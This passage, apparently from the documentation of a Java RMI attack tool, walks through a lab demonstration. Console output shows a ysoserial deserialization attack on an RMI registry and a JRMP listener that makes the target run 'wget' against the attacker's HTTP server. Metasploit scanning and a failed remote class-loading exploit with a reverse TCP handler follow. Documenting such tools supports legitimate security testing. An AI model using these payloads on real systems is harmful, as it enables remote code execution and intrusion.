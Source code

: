 ```console
[qtc@kali ~]$ rmg 172.18.0.2 9010 reg JRMPClient 172.18.0.1:4444
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on RMI registry endpoint...
[+] 
[+] 	Caught ClassCastException during deserialization attack.
[+] 	The server uses either readString() to unmarshal String parameters, or
[+] 	Deserialization attack was probably successful :)


[qtc@kali ~]$ rmg 0.0.0.0 4444 listen CommonsCollections6 "wget 172.17.0.1:8000/vulnerable"
[+] Creating a JRMPListener on port 4444.
[+] Handing off to ysoserial...
* Opening JRMP listener on 4444
Have connection from /172.18.0.2:40704
Reading message...
Is DGC call for [[0:0:0, -1407888899]]
Sending return with payload for obj [0:0:0, 2]
Closing connection


[qtc@kali www]$ web
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.0.2 - - [08/Jan/2021 08:43:14] "GET /vulnerable HTTP/1.1" 200 -
```


#### Method Based Codebase Attacks (codebase)

In 2011, many *Java RMI* endpoints were vulnerable to *remote class loading* attacks due to an insecure by default configuration within the *RMI* implementation.
Today, this vulnerability can still be present if an application server sets the ``useCodebaseOnly`` option to ``false`` and uses a *SecurityManager* with a
lax configured security policy. Using the ``auxiliary/scanner/misc/java_rmi_server`` *Metasploit module*, one can easily identify that the *rmg-example-server*
allows *remote class loading*:

```console
msf5 auxiliary(scanner/misc/java_rmi_server) > run
[+] 172.18.0.2:9010       - 172.18.0.2:9010 Java RMI Endpoint Detected: Class Loader Enabled
[*] 172.18.0.2:9010       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

However, verifying the vulnerability isn't straight forward anymore. The following listing shows the output of the ``exploit/multi/misc/java_rmi_server``
*Metasploit module*, which has an *excellent* reliability rank on exploiting this issue:

```console
msf5 exploit(multi/misc/java_rmi_server) > run
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] 172.18.0.2:9010 - Using URL: http://172.18.0.1:8080/lkIcW0gGgS
[*] 172.18.0.2:9010 - Server started.
[*] 172.18.0.2:9010 - Sending RMI Header...
[*] 172.18.0.2:9010 - Sending RMI Call...
[-] 172.18.0.2:9010 - Exploit failed: RuntimeError Exploit aborted due to failure unknown The RMI class loader couldn't find the payload
[*] 172.18.0.2:9010 - Server stopped.
[*] Exploit completed, but no session was created.
```
